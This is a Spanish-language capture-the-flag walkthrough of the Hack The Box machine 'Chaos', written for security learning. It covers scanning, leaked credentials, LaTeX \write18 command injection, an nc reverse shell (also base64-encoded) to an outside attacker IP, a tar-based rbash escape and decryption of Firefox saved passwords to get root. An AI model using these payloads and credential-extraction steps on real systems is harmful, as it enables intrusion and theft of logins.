Hack The Box - Chaos

Contenido
MASSCAN
Escaneo de puertos udp/tcp.
root@sckull:~# masscan -p1-65535,U:1-65535 10.10.10.120 --rate=1000 -e tun0
Starting masscan 1.0.4 (http://bit.ly/14GZzcT)
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 10000/tcp on 10.10.10.120
Discovered open port 10000/udp on 10.10.10.120
Discovered open port 110/tcp on 10.10.10.120
Discovered open port 143/tcp on 10.10.10.120
Discovered open port 995/tcp on 10.10.10.120
Discovered open port 993/tcp on 10.10.10.120
NMAP
Escaneo de puertos con nmap.
Starting Nmap 7.70 ( https://nmap.org )
Nmap scan report for 10.10.10.120
Host is up (0.093s latency).
Not shown: 994 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.34 ((Ubuntu))
110/tcp open pop3 Dovecot pop3d
143/tcp open imap Dovecot imapd (Ubuntu)
993/tcp open ssl/imap Dovecot imapd (Ubuntu)
995/tcp open ssl/pop3 Dovecot pop3d
10000/tcp open http MiniServ 1.890 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.15 seconds
HTTP
Al visitar la pagina en el puerto 80 nos muestra un mensaje Direct IP not allowed.

WFUZZ
Escaneo de directorios con WFUZZ y el wordlist common.txt, nos encontramos con un directorio /wp.
Target: http://10.10.10.120/FUZZ
Total requests: 4588
==================================================================
ID Response Lines Word Chars Payload
==================================================================
000001: C=200 1 L 5 W 73 Ch ""
001994: C=200 1 L 5 W 73 Ch "index.html"
002119: C=301 9 L 28 W 317 Ch "javascript"
003562: C=403 11 L 32 W 300 Ch "server-status"
004458: C=301 9 L 28 W 309 Ch "wp"
Realizamos un escaneo por segunda vez al directorio /wp.
Target: http://10.10.10.120/wp/FUZZ
Total requests: 4588
==================================================================
ID Response Lines Word Chars Payload
==================================================================
000001: C=200 16 L 60 W 933 Ch ""
004445: C=301 9 L 28 W 319 Ch "wordpress"
/wp/wordpress
Al visitar la ruta http://10.10.10.120/wp/wordpress/ nos muestra una pagina en wordpress, y un post en el que nos indica que para poder ver el contenido del mismo necesitamos ingresar la contraseña.
Obtuvimos la contraseña por medio de la herramienta WPSCAN haciendo un escaneo a la pagina, la contraseña con la que pudimos desbloquear el post fue un usuario que encontramos con WPSCAN.
WPSCAN - Users

Credenciales:
username – ayush
password – jiujitsu
Las credenciales que nos muestran son las de el webmail.
HTTP - PUERTO 10000
Al visitar este puerto nos muestra una pagina con un mensaje y una url, agregamos chaos a nuestro archivo /etc/hosts con la IP de la maquina para averiguar lo que obtenemos en ese dominio.

[/etc/hosts]
10.10.10.120 chaos
Al visitar https://chaos:10000/ nos muestra el weblogin al cual se refiere el mensaje de las credenciales.

Igualmente podemos acceder direcatamente con la IP.

Al intentar iniciar sesion con las credenciales que encontramos nos muestra un error, al parecer no son las credenciales para el weblogin.

IMAP - Puerto 993
Utilizamos openssl para poder conectarnos con el puerto 993 y poder obtener un poco de informacion en este servicio corriendo en la maquina, utilizamos las credenciales para poder hacer un login.
En la carpeta o seccion de Drafts encontramos un correo existente aun.

Al leer el correo nos muestra un mensaje que nos habla sobre dos archivos adjuntos al correo. 
Hii, sahay
Check the enmsg.txt
You are the password XD.
Also attached the script which i used to encrypt.
Thanks,
Ayush
Primer archivo: 
MDAwMDAwMDAwMDAwMDIzNK7uqnoZitizcEs4hVpDg8z18LmJXjnkr2tXhw/AldQmd/g53L6pgva9RdPkJ3GSW57onvseOe5ai95/M4APq+3mLp4GQ5YTuRTaGsHtrMs7rNgzwfiVor7zNryPn1Jgbn8M7Y2mM6I+lH0zQb6Xt/JkhOZGWQzH4llEbyHvvlIjfu+MW5XrOI6QAeXGYTTinYSutsOhPilLnk1e6Hq7AUnTxcMsqqLdqEL5+/px3ZVZccuPUvuSmXHGE023358ud9XKokbNQG3LOQuRFkpE/LS10yge+l6ON4g1fpYizywI3+h9l5Iwpj/UVb0BcVgojtlyz5gIv12tAHf7kpZ6R08=
Segundo archivo:

ZGVmIGVuY3J5cHQoa2V5LCBmaWxlbmFtZSk6CiAgICBjaHVua3NpemUgPSA2NCoxMDI0CiAgICBvdXRwdXRGaWxlID0gImVuIiArIGZpbGVuYW1lCiAgICBmaWxlc2l6ZSA9IHN0cihvcy5wYXRoLmdldHNpemUoZmlsZW5hbWUpKS56ZmlsbCgxNikKICAgIElWID1SYW5kb20ubmV3KCkucmVhZCgxNikKCiAgICBlbmNyeXB0b3IgPSBBRVMubmV3KGtleSwgQUVTLk1PREVfQ0JDLCBJVikKCiAgICB3aXRoIG9wZW4oZmlsZW5hbWUsICdyYicpIGFzIGluZmlsZToKICAgICAgICB3aXRoIG9wZW4ob3V0cHV0RmlsZSwgJ3diJykgYXMgb3V0ZmlsZToKICAgICAgICAgICAgb3V0ZmlsZS53cml0ZShmaWxlc2l6ZS5lbmNvZGUoJ3V0Zi04JykpCiAgICAgICAgICAgIG91dGZpbGUud3JpdGUoSVYpCgogICAgICAgICAgICB3aGlsZSBUcnVlOgogICAgICAgICAgICAgICAgY2h1bmsgPSBpbmZpbGUucmVhZChjaHVua3NpemUpCgogICAgICAgICAgICAgICAgaWYgbGVuKGNodW5rKSA9PSAwOgogICAgICAgICAgICAgICAgICAgIGJyZWFrCiAgICAgICAgICAgICAgICBlbGlmIGxlbihjaHVuaykgJSAxNiAhPSAwOgogICAgICAgICAgICAgICAgICAgIGNodW5rICs9IGInICcgKiAoMTYgLSAobGVuKGNodW5rKSAlIDE2KSkKCiAgICAgICAgICAgICAgICBvdXRmaWxlLndyaXRlKGVuY3J5cHRvci5lbmNyeXB0KGNodW5rKSkKCmRlZiBnZXRLZXkocGFzc3dvcmQpOgogICAgICAgICAgICBoYXNoZXIgPSBTSEEyNTYubmV3KHBhc3N3b3JkLmVuY29kZSgndXRmLTgnKSkKICAgICAgICAgICAgcmV0dXJuIGhhc2hlci5kaWdlc3QoKQoK
Comandos Utilizados:
openssl s_client -connect 10.10.10.120:993
a login ayush jiujitsu
a select Drafts
UID FETCH 1 (BODY[0])
UID FETCH 1 (BODY[2]) <-- Lectura del primer archivo
UID FETCH 1 (BODY[3]) <-- Lectura del segundo archivo
El primer archivo pertenece a enmsg.txt y el segundo al archivo que encriptó enmsg.txt.

Ahora que tenemos el archivo de encriptacion podemos escribir algunas funciones para poder desencriptar el archivo.
import os, random
from Crypto.Cipher import AES
from Crypto.Hash import SHA256
def decrypt(key, filename):
chunksize = 64*1024
outputFile = 'dec'
with open(filename, 'rb') as infile:
filesize = long(infile.read(16))
IV = infile.read(16)
decryptor = AES.new(key, AES.MODE_CBC, IV)
with open(outputFile, 'wb') as outfile:
while True:
chunk = infile.read(chunksize)
if len(chunk) == 0:
break
outfile.write(decryptor.decrypt(chunk))
outfile.truncate(filesize)
def getKey(password):
hasher = SHA256.new(password)
return hasher.digest()
def Main():
filename = '/path/to/file/file_enc'
password = 'sahay'
decrypt(getKey(password), filename)
print("Done.")
if __name__ == '__main__':
Main()
Al ejecutar nuestro escript nos muestra un mensaje en base64 este mismo lo decodificamos y nos muestra un segundo mensaje que nos habla de un servicio de pdf y una url donde este se encuentra.

Hii Sahay
Please check our new service which create pdf
p.s - As you told me to encrypt important msg, i did :)
http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3
Thanks,
Ayush
Agregamos el nuevo dominio a nuestro archivo /etc/hosts.
[/etc/hosts]
10.10.10.120 chaos.htb
RCE - pdfTEXT [LaTex]
Al visitar la url del mensaje nos muestra lo que parece ser un servicio de creacion de PDF, al enviar un texto con el Template test1 nos muestra en la parte de respuesta en este caso en el METODO POST, la version de pdfTEXT. Investigamos un poco acerca de este servicio y encontramos un post que habla de una vulnerabilidad en los compiladores basados en LaTex, en el cual se pueden ejecutar comandos en el servidor donde este corriendo un servicio basado en este.
INFO => https://0day.work/hacking-with-latex/
Utilizamos el siguiente payload y un comando para comprobar que estos se ejecutan en la maquina, se envio por medio del Template test3:
Payload:
\immediate\write18{#ComandoAqui}
Comando:
nslookup sckull.htb 10.10.13.27
Responder: 
Ahora que tenemos un ‘pequeño’ acceso mediante ejecucion de comandos, vamos a descargar un archivo que contiene una shell inversa para ejecutarlo y obtener acceso.
Shell:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.13.27 7878 >/tmp/f
Codificamos a base64:
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTMuMjcgNzg3OCA+L3RtcC9mCg==
Payload:
\immediate\write18{echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTMuMjcgNzg3OCA+L3RtcC9mCg==|base64 -d > shell.sh && sh shell.sh}
Al enviar este mensaje la maquina decodifica nuestra shell y la agrega a un archivo (shell.sh) luego de esto la ejecuta y obtenemos nuestra shell como usuario www-data.

Actualizamos nuestra shell con python, al intentar ingresar al directorio de ayush nos dice permiso denegado, anteriormente encontramos una contraseña para ayush utilizamos la misma para poder escalar a ese usuario mediante el comando su, pero al intentar ingresar a su carpeta principal nos muestra que cd esta restringido.

Para poder escapar este mensaje o rbash utilizamos tar:
tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash
Tambien agregamos a la variable PATH:
export PATH=/usr/bin:/bin
Al realizar todo esto podemos ingresar a la carpeta de ayush y obtener nuestra bandera user.txt.

PRIVILEGE ESCALATION
Hicimos una pequeña enumeracion en los directorios de ayus y encontramos una carpeta de .mozilla que pertenece a el navegador firefox, revisamos los archivos que contiene esta carpeta y encontramos el archivo login.json que almacena las contraseñas de firefox.

{
"nextId":3,
"logins":[
{
"id":2,
"hostname":"https://chaos.htb:10000",
"httpRealm":null,
"formSubmitURL":"https://chaos.htb:10000",
"usernameField":"user",
"passwordField":"pass",
"encryptedUsername":"MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECDSAazrlUMZFBAhbsMDAlL9iaw==",
"encryptedPassword":"MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECNx7bW1TuuCuBBAP8YwnxCZH0+pLo6cJJxnb",
"guid":"{cb6cd202-0ff8-4de5-85df-e0b8a0f18778}",
"encType":1,
"timeCreated":1540642202692,
"timeLastUsed":1540642202692,
"timePasswordChanged":1540642202692,
"timesUsed":1
}
],
"disabledHosts":[
],
"version":2
}
Para poder obtener el usuario y contraseña de este archivo utilizamos firefox_decrypt [https://github.com/unode/firefox_decrypt], lo descargamos en la maquina y lo ejecutamos, al ejecutarlo nos pide la contraseña para el usuario ayush la ingresamos (jiujitsu), luego de eso nos muestra el usuario y contraseña en ese archivo.

Website: https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
Escalamos con el usuario root y contraseña, obteniendo privilegios root y nuestra bandera root.txt.
